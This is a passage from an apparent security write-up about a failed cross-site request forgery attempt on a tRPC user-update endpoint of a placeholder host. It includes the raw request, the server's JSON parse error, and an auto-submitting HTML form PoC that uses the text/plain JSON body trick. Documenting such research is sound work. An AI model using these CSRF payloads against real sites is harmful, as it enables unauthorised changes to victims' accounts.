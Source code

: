 However, the request generated by this PoC was formatted incorrectly. The `=` symbol at the end of the JSON payload caused the server to misinterpret the request as a malformed JSON:

```http
POST /trpc/users.updateUserInfo?batch=1 HTTP/2
Host: dashboard.target.com
Content-Type: text/plain
{"0":{"accountName":"hacked","name":"test user","subscribed":"on","phone":"1234567890","country":"EG"}}=
```

The presence of the `=` symbol at the end was unexpected, and the server returned a parsing error:

```json
{"error":{"message":"Unexpected non-whitespace character after JSON at position 116","code":-32700}}
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i tried the known bypass to add another parameter with anything in the value and will treat `=` as normal string but sadly this didn't work

```html
<html>
  <body>
    <form action="https://dashboard.target.com/trpc/users.updateUserInfo?batch=1" method="POST" enctype="text/plain">
      <input type="hidden" name="&#123;&quot;0&quot;&#58;&#123;&quot;accountName&quot;&#58;&quot;hacked&quot;&#44;&quot;name&quot;&#58;&quot;tes&#32;edf&quot;&#44;&quot;subscribed&quot;&#58;&quot;on&quot;&#44;&quot;phone&quot;&#58;&quot;1099424297&quot;&#44;&quot;country&quot;&#58;&quot;EG&quot;&#44;&quot;anything&quot;&#58;&quot;" value="&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
